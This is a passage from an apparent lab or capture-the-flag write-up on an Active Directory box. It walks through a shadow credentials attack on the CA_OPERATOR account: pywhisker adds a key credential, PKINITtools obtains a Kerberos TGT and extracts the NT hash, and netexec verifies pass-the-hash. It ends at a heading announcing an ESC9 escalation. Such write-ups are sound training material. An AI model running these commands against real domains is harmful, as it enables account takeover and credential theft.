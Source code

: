 
### Performing the shadow credentials attack against "CA_OPERATOR" {#performing-the-shadow-credentials-attack-against-ca-operator}

-   **Lets perform our shadow credentiasl attack using pyhisker again**:
    -   `python3 /home/kali/windowsTools/pywhisker/pywhisker.py -d $domain -u $user -H :$hash --target "CA_OPERATOR" --action "add" --filename CACert --export PEM`
        -   {{< figure src="/ox-hugo/2024-11-06-115559_.png" >}}
        -   +Note+: I have set the `user=MANAGEMENT_SVC` in my variables and have exported the extracted hash also.


### Requesting a TGT for CA_OPERATOR with PKINITtools getgtgkinit: {#requesting-a-tgt-ca-operator-for-with-pkinittools-getgtgkinit}

-   **Now we perform the same process again to be able to extract their hash by using the** `.pem` **files we have retrieved to export a** `.ccache` **we can authenticate with**:
    -   `python3 /home/kali/windowsTools/PKINITtools/gettgtpkinit.py -cert-pem CACert_cert.pem -key-pem CACert_priv.pem $domain/CA_OPERATOR CA_OPERATOR.ccache`
    -   {{< figure src="/ox-hugo/2024-11-06-115914_.png" >}}

-   **We load the** `ccache` **into our** `KRB5CCNAME` **variable**:
    -   `export KRB5CCNAME=./CA_OPERATOR.ccache`
    -   {{< figure src="/ox-hugo/2024-11-06-120133_.png" >}}


### Requesting the CA_OPERATOR user hash with PKINITtools getnthash: {#requesting-the-ca-operator-user-hash-with-pkinittools-getnthash}

-   **Now we extract the NTHash**:
    -   `python3 /home/kali/windowsTools/PKINITtools/getnthash.py -key 4c6a721a5bbe0a510df5e45f62e579a161cd734466eeaab9586c2466ea815945 $domain/CA_OPERATOR`
    -   Hash retrieved for `CA_OPERATOR` account.
    -   {{< figure src="/ox-hugo/2024-11-06-120259_.png" >}}

-   **Lets verify the hash works**:
    -   `netexec smb $box -u $user -H $hash`
    -   It does.
    -   {{< figure src="/ox-hugo/2024-11-06-121126_.png" >}}

-   I try and crack the hash using hashcat but it wont' crack either


## 4. Privilege Escalation: {#4-dot-privilege-escalation}


### Discovering that we can perform the ESC9 exploit chain CA vulnerability as CA_OPERATOR: {#discovering-that-we-can-perform-the-esc9-exploit-chain-ca-vulnerability-as-ca-operator}
